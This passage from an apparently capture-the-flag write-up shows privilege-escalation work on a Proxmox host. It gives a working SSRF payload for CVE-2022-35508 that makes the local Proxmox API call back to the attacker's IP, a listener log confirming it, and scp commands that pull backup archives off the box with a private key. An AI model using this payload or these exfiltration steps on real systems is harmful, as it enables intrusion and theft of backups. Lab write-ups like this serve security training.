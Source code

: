 ```
-rw-r--r--  1 root root      256 Apr  8  2023 apt.extended_states.3.gz
-rw-r--r--  1 root root        0 Apr 16  2023 dpkg.arch.0
-rw-r--r--  1 root root       32 Apr 15  2023 dpkg.arch.1.gz
-rw-r--r--  1 root root       32 Apr  9  2023 dpkg.arch.2.gz
-rw-r--r--  1 root root      261 Apr  7  2023 dpkg.diversions.0
-rw-r--r--  1 root root      160 Apr  7  2023 dpkg.diversions.1.gz
-rw-r--r--  1 root root      160 Apr  7  2023 dpkg.diversions.2.gz
-rw-r--r--  1 root root      332 Apr  7  2023 dpkg.statoverride.0
-rw-r--r--  1 root root      209 Apr  7  2023 dpkg.statoverride.1.gz
-rw-r--r--  1 root root      209 Apr  7  2023 dpkg.statoverride.2.gz
-rw-r--r--  1 root root   701161 Apr 15  2023 dpkg.status.0
-rw-r--r--  1 root root   186927 Apr 12  2023 dpkg.status.1.gz
-rw-r--r--  1 root root   186448 Apr  8  2023 dpkg.status.2.gz
-rw-r--r--  1 root root 62739772 Apr 15  2023 proxmox_backup_corporate_2023-04-15.15.36.28.tar.gz  <---
-rw-r--r--  1 root root    76871 Apr 15  2023 pve-host-2023_04_15-16_09_46.tar.gz  <---
drwx------  3 root root     4096 Apr  7  2023 slapd-2.4.57+dfsg-3+deb11u1
drwxr-xr-x  2 root root     4096 Apr  7  2023 unknown-2.4.57+dfsg-3+deb11u1-20230407-203136.ldapdb
```

### CVE-2022-35508
Searching for "proxmox privilege escalation" on Google yielded a few results. A prominent one was `CVE-2022-35508`.
![](Pasted%20image%2020251010202547.png)

It led to a [post](https://starlabs.sg/blog/2022/12-multiple-vulnerabilites-in-proxmox-ve--proxmox-mail-gateway/#bug-0x03-post-auth-ssrf--lfi--privilege-escalation) by Star Labs detailing the steps for SSRF, LFI, and Privilege Escalation.

I followed the guide to test for Server-Side Request Forgery (SSRF). 
![](https://starlabs.sg/blog/2022/images/20.png)

I constructed a payload following the post and specified the hostname as my IP.
```
sysadmin@corporate:~$ curl -L http://localhost:8006%2Fapi2%2Fjson%2Fnodes%2Fpve1%2Ftasks%2F@10.10.xxx.xxx/
```

I got a callback in my server, confirming the SSRF.
```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.229.168 - - [11/Oct/2025 06:21:17] "GET / HTTP/1.1" 200 -
```

However, I couldn't exploit the LFI.

I proceeded to download the two backup files using `scp`.
```
❯ scp -i id_rsa sysadmin@10.9.0.1:/var/backups/pve-host-2023_04_15-16_09_46.tar.gz .
pve-host-2023_04_15-16_09_46.tar.gz                                              100%   75KB  86.4KB/s   00:00

❯ scp -i id_rsa sysadmin@10.9.0.1:/var/backups/proxmox_backup_corporate_2023-04-15.15.36.28.tar.gz .
proxmox_backup_corporate_2023-04-15.15.36.28.tar.gz                              100%   60MB   1.6MB/s   00:36
```
